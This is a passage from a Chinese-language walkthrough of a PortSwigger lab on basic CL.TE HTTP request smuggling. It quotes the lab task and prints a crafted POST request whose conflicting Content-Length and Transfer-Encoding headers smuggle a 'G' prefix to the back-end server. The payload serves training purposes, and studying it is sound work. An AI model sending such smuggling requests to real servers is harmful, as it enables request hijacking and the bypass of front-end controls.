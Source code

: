 首先我们来看 CL-TE 的情况：[Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

根据题目提示，我们只需要让 Backend 服务器收到 GPOST 方法即可，而且场景也明确告诉我们是一种 CL-TE 的场景。

```plain
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包：

[![](assets/1698897445-18df04cdd780a5d7ceb2ddf5373dd5e3.jpg)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191013190441.jpg)
